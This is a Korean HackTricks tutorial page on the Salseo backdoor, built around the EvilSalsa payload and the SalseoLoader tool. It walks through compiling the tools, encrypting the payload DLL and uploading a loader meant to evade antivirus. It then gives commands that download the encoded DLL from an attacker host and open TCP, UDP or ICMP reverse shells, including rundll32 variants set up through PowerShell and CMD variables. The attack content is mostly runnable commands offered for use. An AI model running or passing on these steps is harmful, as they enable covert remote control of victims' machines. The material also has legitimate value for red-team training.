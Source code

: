 # 살세오

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **해킹 트릭을 공유하려면 PR을** [**HackTricks**](https://github.com/carlospolop/hacktricks) **및** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **깃허브 저장소에 제출하세요.**

</details>
{% endhint %}

## 이진 파일 컴파일

깃허브에서 소스 코드를 다운로드하고 **EvilSalsa** 및 **SalseoLoader**를 컴파일합니다. 코드를 컴파일하려면 **Visual Studio**가 설치되어 있어야 합니다.

이 프로젝트를 사용할 Windows 환경의 아키텍처에 맞게 컴파일하세요(Windows가 x64를 지원하는 경우 해당 아키텍처로 컴파일).

Visual Studio에서 **"Platform Target"**에서 **왼쪽 "Build" 탭**에서 아키텍처를 선택할 수 있습니다.

(\*\*이 옵션을 찾을 수 없는 경우 **"Project Tab"**을 누르고 **"\<Project Name> Properties"**를 선택하세요)

![](<../.gitbook/assets/image (132).png>)

그런 다음, 두 프로젝트를 빌드하세요 (Build -> Build Solution) (로그에 실행 파일의 경로가 표시됩니다):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## 백도어 준비

먼저, **EvilSalsa.dll**을 인코딩해야 합니다. 이를 위해 python 스크립트 **encrypterassembly.py**를 사용하거나 프로젝트 **EncrypterAssembly**를 컴파일할 수 있습니다:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
이제 Salseo 작업을 실행하는 데 필요한 모든 것을 갖추었습니다: **인코딩된 EvilDalsa.dll**과 **SalseoLoader의 이진 파일**.

**SalseoLoader.exe 바이너리를 기계에 업로드하세요. 어떤 AV에서도 감지되지 않아야 합니다...**

## **백도어 실행**

### **TCP 역쉘 획득 (HTTP를 통해 인코딩된 dll 다운로드)**

역쉘 리스너로 nc를 시작하고 인코딩된 evilsalsa를 제공하기 위해 HTTP 서버를 시작하는 것을 기억하세요.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **UDP 리버스 쉘 획득 (SMB를 통해 인코딩된 dll 다운로드)**

UDP 리버스 쉘 수신기로 nc를 시작하고, 인코딩된 evilsalsa를 제공하기 위해 SMB 서버를 시작하세요 (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **ICMP 역쉘 얻기 (인코딩된 dll 이미 피해자 내부에 존재)**

**이번에는 역쉘을 수신하기 위해 클라이언트에 특수 도구가 필요합니다. 다운로드:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP 응답 비활성화:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### 클라이언트 실행:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### 피해자 내부에서, salseo 작업을 실행합니다:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## DLL 내보내기 메인 함수로 SalseoLoader 컴파일

Visual Studio를 사용하여 SalseoLoader 프로젝트를 엽니다.

### 메인 함수 앞에 추가: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### 이 프로젝트에 DllExport 설치

#### **도구** --> **NuGet 패키지 관리자** --> **솔루션용 NuGet 패키지 관리...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **DllExport 패키지 검색 (탐색 탭 사용)하고 설치를 누릅니다 (팝업을 수락)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

프로젝트 폴더에 **DllExport.bat** 및 **DllExport\_Configure.bat** 파일이 나타납니다.

### DllExport 제거

**제거**를 누릅니다 (그렇습니다, 이상하지만 믿어주세요, 필요합니다)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### Visual Studio 종료 및 DllExport\_configure 실행

그냥 Visual Studio를 **종료**합니다

그런 다음 **SalseoLoader 폴더**로 이동하여 **DllExport\_Configure.bat**을 실행합니다

**x64**를 선택합니다 (x64 상자 내에서 사용할 것이므로, 제 경우에 해당), **System.Runtime.InteropServices** (DllExport 내부의 **Namespace**에서)를 선택하고 **적용**을 누릅니다

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### 프로젝트를 다시 Visual Studio로 엽니다

**\[DllExport]**가 더 이상 오류로 표시되지 않아야 합니다

![](<../.gitbook/assets/image (8) (1).png>)

### 솔루션 빌드

**출력 유형 = 클래스 라이브러리** 선택 (프로젝트 --> SalseoLoader 속성 --> 응용 프로그램 --> 출력 유형 = 클래스 라이브러리)

![](<../.gitbook/assets/image (10) (1).png>)

**x64 플랫폼** 선택 (프로젝트 --> SalseoLoader 속성 --> 빌드 --> 플랫폼 대상 = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

솔루션을 **빌드**하려면: 빌드 --> 솔루션 빌드 (출력 콘솔 내에 새 DLL의 경로가 나타납니다)

### 생성된 Dll 테스트

Dll을 테스트하려는 위치로 복사하여 붙여넣습니다.

실행:
```
rundll32.exe SalseoLoader.dll,main
```
만약 오류가 나타나지 않는다면, 아마도 기능적인 DLL이 있을 것입니다!!

## DLL을 사용하여 쉘 획득

**HTTP** **서버**를 사용하고 **nc** **리스너**를 설정하는 것을 잊지 마세요

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD

### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* 해킹 팁을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
{% endhint %}
